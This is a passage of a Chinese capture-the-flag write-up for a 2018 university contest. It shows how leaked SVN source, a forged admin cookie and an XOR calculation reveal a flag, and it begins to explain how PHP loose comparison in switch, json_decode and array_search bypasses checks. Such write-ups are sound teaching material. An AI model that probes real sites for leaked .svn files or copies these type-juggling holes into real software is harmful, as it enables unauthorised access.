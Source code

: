 2018/9/16  福师大黑盾杯

![1537107338208](images/1537107338208.png)

# 信息泄露+代码审计

svn泄露源码：http://192.168.200.200/web/codeaudit/.svn/text-base/index.php.svn-base.txt 

```php
<?php
error_reporting(0);
$user = $_COOKIE['user'];
$code = $_GET['code']?(int)$_GET['code']:'';
if($user == 'admin' && !empty($code)) {
	$hex = (int)$code;
	if(($hex ^ 6789) === 0xCDEF) {
		require("flag.php");
		echo $flag;
		exit();
	}	
echo "ȱ��Ӧ�еĲ���,��û��Ȩ�޲鿴������";
?>
```

`GET` 请求`code=55146` ，  请求头添加`Cookie: user=admin;` 。

`flag{a737c5c5b759c3705c8100accf65b5e4}` 

# 最好的语言

```php
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 
if (isset($_GET['x1'])) //$x1=0;=>$a=1;
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
$x2=(array)json_decode(@$_GET['x2']); 
//$x2=json_encode(['x21'=>'2018hello','x22'=>[[],0]]) ;
//string(32) "{"x21":"2018hello","x22":[[],0]}"
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        //array_search — 在数组中搜索给定的值，如果成功则返回相应的键名 
        //mixed array_search( mixed $needle, array $haystack[, bool $strict = false] )
        //第三个参数决定在搜索时是否比较类型，默认不比较，也是这里能够绕过的原因。
        //var_dump(array_search('XIPU', array("0","1",0)));//int(2)
```